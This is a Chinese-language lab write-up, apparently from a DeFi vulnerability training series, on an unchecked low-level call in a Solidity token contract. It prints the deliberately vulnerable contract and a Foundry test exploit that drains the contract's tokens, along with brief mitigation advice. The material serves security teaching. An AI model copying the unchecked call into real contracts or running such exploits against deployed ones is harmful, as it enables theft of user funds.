

# 未经检查的外部调用——调用注入  
[UnsafeCall.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/UnsafeCall.sol)  
**名称：**  不安全的调用漏洞  
**描述：**  
在 TokenWhale 合约的 approveAndCallcode 函数中。该漏洞允许
使用任意数据执行任意的调用，从而导致潜在安全风险和意外后果。
该函数使用低级调用 (_spender.call(_extraData))执行来自 _spender 地址的代码，而不对所提供的 _extraData 进行任何验证或检查。  
这可能导致意外行为、重入攻击或未经授权的操作。

本练习是关于对合约的低级调用，其中不检查输入和返回值  
如果调用数据是可控的，就很容易导致任意函数的执行。  


**缓解建议：**   
应该尽可能的避免使用低级别的“调用”。  
**参考**  
https://blog.li.fi/20th-march-the-exploit-e9e1c5c03eb9  


**TokenWhale 合约：**  
```
contract TokenWhale {
    address player;

    uint256 public totalSupply;
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    string public name = "Simple ERC20 Token";
    string public symbol = "SET";
    uint8 public decimals = 18;

    function TokenWhaleDeploy(address _player) public {
        player = _player;
        totalSupply = 1000;
        balanceOf[player] = 1000;
    }

    function isComplete() public view returns (bool) {
        return balanceOf[player] >= 1000000; // 1 mil
    }

    event Transfer(address indexed from, address indexed to, uint256 value);

    function _transfer(address to, uint256 value) internal {
        balanceOf[msg.sender] -= value;
        balanceOf[to] += value;

        emit Transfer(msg.sender, to, value);
    }

    function transfer(address to, uint256 value) public {
        require(balanceOf[msg.sender] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);

        _transfer(to, value);
    }

    event Approval(
        address indexed owner,
        address indexed spender,
        uint256 value
    );

    function approve(address spender, uint256 value) public {
        allowance[msg.sender][spender] = value;
        emit Approval(msg.sender, spender, value);
    }

    function transferFrom(address from, address to, uint256 value) public {
        require(balanceOf[from] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);
        require(allowance[from][msg.sender] >= value);

        allowance[from][msg.sender] -= value;
        _transfer(to, value);
    }

    /* 批准后调用合约代码*/
    function approveAndCallcode(
        address _spender,
        uint256 _value,
        bytes memory _extraData
    ) public {
        allowance[msg.sender][_spender] = _value;

        bool success;
        //有漏洞的调用执行不安全的代码 
        (success, ) = _spender.call(_extraData);
        console.log("success:", success);
    }
}
```  


**如何测试：**  
forge test --contracts src/test/UnsafeCall.sol-vvvv  
```
// 测试不安全调用的函数
function testUnsafeCall() public {
    // 设置环境变量
    address alice = vm.addr(1);
    TokenWhaleContract = new TokenWhale();
    TokenWhaleContract.TokenWhaleDeploy(address(TokenWhaleContract));

    console.log(
        "TokenWhale balance:",
        TokenWhaleContract.balanceOf(address(TokenWhaleContract))
    );

    // Alice试图执行不安全的调用以从TokenWhaleContract转移资产
    console.log(
        "Alice tries to perform unsafe call to transfer asset from TokenWhaleContract"
    );

    // 使用 vm.prank()函数更改 msg.sender
    vm.prank(alice);

    // Alice 使用表示对传递函数的调用的编码数据调用 approveAndCallcode函数
    TokenWhaleContract.approveAndCallcode(
        address(TokenWhaleContract),
        0x1337, // 不影响漏洞利用
        abi.encodeWithSignature(
            "transfer(address,uint256)",
            address(alice),
            1000
        )
    );

    // 检查漏洞利用是否成功
    assertEq(TokenWhaleContract.balanceOf(address(alice)), 1000);
    console.log("Exploit completed");

    // 记录最终余额
    console.log(
        "TokenWhale balance:",
        TokenWhaleContract.balanceOf(address(TokenWhaleContract))
    );
    console.log(
        "Alice balance:",
        TokenWhaleContract.balanceOf(address(alice))
    );
}

// 接收以太币的回退函数
receive() external payable {}
```  
**红色框：** 攻击成功，清空了TokenWhale合约。  

